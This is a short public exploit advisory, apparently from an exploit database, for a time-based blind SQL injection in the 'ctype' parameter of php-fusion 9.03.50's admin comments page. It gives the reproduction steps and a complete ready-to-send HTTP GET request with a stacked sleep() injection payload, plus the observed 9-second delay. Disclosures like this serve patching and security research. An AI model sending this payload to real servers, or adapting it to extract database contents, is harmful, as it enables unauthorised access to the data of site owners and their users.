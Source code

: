 # Exploit Title: php-fusion 9.03.50 - 'ctype' SQL Injection
# Exploit Author: SunCSR (Sun* Cyber Security Research - ThienNV)
# Date: 2020-05-19
# Vendor Homepage: https://www.php-fusion.co.uk/
# Software Link: https://www.php-fusion.co.uk/php_fusion_9_downloads.php
# Version: 9.03.50
# Tested On: Windows 10 + XAMPP 7.4.5

###Describe the bug
I've identified an SQL injection vulnerability in the php-fusion 9.03.50 that affects the endpoint /php-fusion/administration/comments.php and can be exploited via the ctype param.


###To Reproduce
Steps to reproduce the behavior:

1. Go to login as admin
2. Go to Content Admin -> Comments
3. Filter comments

###POC:
Send the following HTTP request (With sleep=3s):

GET /php-fusion/administration/comments.php?aid=fee32dbfde52e8ad&ctype=(select(0)from(select(sleep(3)))v)/*'%2b(select(0)from(select(sleep(3)))v)%2b'%22%2b(select(0)from(select(sleep(3)))v)%2b%22*/ HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,vi-VN;q=0.8,vi;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close

Result: Server to sleep for 3+3+3=9 seconds

###Impact
An attacker can manipulate the SQL statements that are sent to the MySQL database and inject malicious SQL statements. The attacker is able to change the logic of SQL statements executed against the database or extract sensitive information

### Reference
https://github.com/php-fusion/PHP-Fusion/issues/2327
